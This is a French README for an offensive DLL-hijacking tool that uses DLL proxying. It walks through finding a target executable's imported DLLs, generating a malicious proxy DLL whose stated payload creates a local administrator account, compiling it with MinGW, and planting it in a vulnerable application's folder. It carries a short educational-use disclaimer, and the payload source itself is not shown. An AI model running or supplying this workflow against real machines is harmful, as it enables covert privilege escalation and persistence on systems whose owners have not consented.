 # DLL Hijacker Tool

Ce projet est un outil de DLL Hijacking utilisant la technique de DLL Proxifying.

https://sh0ckfr.com/pages/martine-a-la-recherche-de-la-dll-hijacking-perdue/
https://sh0ckfr.com/pages/martin-et-le-dll-proxying-de-cristal/


Il permet de générer rapidement une DLL malveillante qui exécutera du code (création d'un administrateur local)

## Fonctionnalités

- Identification des DLL importées par un exécutable cible.
- Sélection des DLL ayant le moins de fonctions exportées pour simplifier l'exploitation.
- Génération automatique d'une DLL malveillante basée sur un template.

## Prérequis

- Python 3.x
- Modules Python : `pefile`
- Compilateur MinGW-w64 (pour générer les DLL et les exécutables).

```bash
pip install pefile
sudo apt install mingw-w64
```

## Mode d'emploi

1. **Analyse de l'exécutable** :

   ```bash
   python dllhijacker.py analyse --executable app.exe
   ```
   ```
   Analyse terminée, maintenant cherche et récupère l'une de ces DLL (sur le système cible):
   - user32.dll
   - kernel32.dll
   - advapi32.dll
   ```

2. **Génération de la DLL malveillante** :

   ```bash
   python dllhijacker.py proxify --dllpath "C:\\Windows\\System32\\user32.dll" --dllimage user32.dll --template template.c
   ```

   Compilation :

   ```bash
   x86_64-w64-mingw32-gcc -shared -o release/user32.dll release/user32.c -Wl,--subsystem,windows
   i686-w64-mingw32-gcc -shared -o release/user32.dll release/user32.c -Wl,--subsystem,windows
   ```

3. **Exploitation** :
   Placez `user32.dll` dans le dossier de l'application vulnérable.

4. **Test** :
   Modifiez le chemin dans `loader.c` :
   ```bash
   sed 's/DLLTOTEST/release\/user32.dll/g' -i test/loader.c
   ```
   Compilez et exécutez le test :
   ```bash
   x86_64-w64-mingw32-gcc -o test/loader.exe test/loader.c
   ./test/loader.exe
   ```

## Explication

### Étape 1 : Identifier l'exécutable vulnérable

Une fois l'application vulnérable identifiée, récupérez l'exécutable à analyser.

### Étape 2 : Analyser l'exécutable

Utilisez l'outil `dllhijacker.py` pour identifier les DLL susceptibles d'être exploitées :

```bash
python dllhijacker.py analyse --executable <chemin_de_l_executable>
```

L'outil vous proposera les DLL ayant le moins de fonctions exportées, facilitant ainsi l'exploitation.

### Étape 3 : Générer la DLL malveillante

Une fois une DLL choisie parmi celles proposées :

1. Utilisez la commande suivante pour générer une DLL malveillante :
   ```bash
   python dllhijacker.py proxify --dllpath <chemin_absolu_de_la_DLL> --dllimage <nom_de_la_DLL> --template <chemin_du_template>
   ```
2. L'outil générera un fichier source `.c` et proposera des commandes pour compiler en 32 et 64 bits.
   Exemple pour 64 bits :
   ```bash
   x86_64-w64-mingw32-gcc -shared -o release/<nom_de_la_DLL>.dll release/<nom_de_la_DLL>.c -Wl,--subsystem,windows
   ```
   Exemple pour 32 bits :
   ```bash
   i686-w64-mingw32-gcc -shared -o release/<nom_de_la_DLL>.dll release/<nom_de_la_DLL>.c -Wl,--subsystem,windows
   ```

### Étape 4 : Placer la DLL générée

Placez la DLL malveillante dans le dossier de l'application vulnérable, là où elle pourrait être recherchée par le binaire.

## Tester la DLL générée

Pour vérifier que la DLL générée est correctement chargée par l'exécutable vulnérable, utilisez le fichier de test `loader.c` :

1. Modifiez le chemin de la DLL dans `loader.c` :
   ```bash
   sed 's/DLLTOTEST/<chemin_de_la_DLL>/g' -i test/loader.c
   ```

2. Compilez le fichier `loader.c` en 64 bits :
   ```bash
   x86_64-w64-mingw32-gcc -o test/loader.exe test/loader.c
   ```

3. Compilez le fichier `loader.c` en 32 bits :
   ```bash
   i686-w64-mingw32-gcc -o test/loader.exe test/loader.c -m32
   ```

4. Exécutez `loader.exe` pour tester le chargement de votre DLL.

## Notes

- Cet outil est à des fins éducatives uniquement. Toute utilisation abusive est interdite.
- Assurez-vous d'avoir les permissions nécessaires pour tester cet outil sur des systèmes.

## Avertissement

L'exploitation de vulnérabilités sans autorisation est illégale. Utilisez cet outil uniquement dans un cadre légal, comme des audits de sécurité ou des environnements de test autorisés.
